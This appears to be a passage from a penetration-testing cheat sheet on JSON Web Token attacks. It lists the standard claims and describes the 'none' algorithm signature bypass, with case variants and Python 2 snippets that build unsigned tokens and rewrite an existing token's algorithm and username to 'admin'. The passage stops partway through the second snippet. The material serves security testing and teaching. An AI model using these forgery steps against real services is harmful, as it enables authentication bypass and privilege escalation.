 ```json
{
    "sub":"1234567890",
    "name":"Amazing Haxx0r",
    "exp":"1466270722",
    "admin":true
}
```

Claims are the predefined keys and their values:
- iss: issuer of the token
- exp: the expiration timestamp (reject tokens which have expired). Note: as defined in the spec, this must be in seconds.
- iat: The time the JWT was issued. Can be used to determine the age of the JWT
- nbf: "not before" is a future time when the token will become active.
- jti: unique identifier for the JWT. Used to prevent the JWT from being re-used or replayed.
- sub: subject of the token (rarely used)
- aud: audience of the token (also rarely used)

JWT Encoder – Decoder: `http://jsonwebtoken.io`

## JWT Signature - None algorithm

JWT supports a None algorithm for signature. This was probably introduced to debug applications. However, this can have a severe impact on the security of the application.

None algorithm variants:
* none 
* None
* NONE
* nOnE

To exploit this vulnerability, you just need to decode the JWT and change the algorithm used for the signature. Then you can submit your new JWT.

However, this won't work unless you **remove** the signature

The following code is a basic test for a None algorithm.

```python
import jwt
import base64

def b64urlencode(data):
    return base64.b64encode(data).replace('+', '-').replace('/', '_').replace('=', '')

print b64urlencode("{\"typ\":\"JWT\",\"alg\":\"none\"}") + \
    '.' + b64urlencode("{\"data\":\"test\"}") + '.'
```

Alternatively you can modify an existing JWT (be careful with the expiration time)

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

jwt = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ"
header, payload, signature  = jwt.split('.')

# Replacing the ALGO and the payload username
header  = header.decode('base64').replace('HS256',"none")
payload = (payload+"==").decode('base64').replace('test','admin')

header  = header.encode('base64').strip().replace("=","")
payload = payload.encode('base64').strip().replace("=","")

# 'The algorithm 'none' is not supported'
```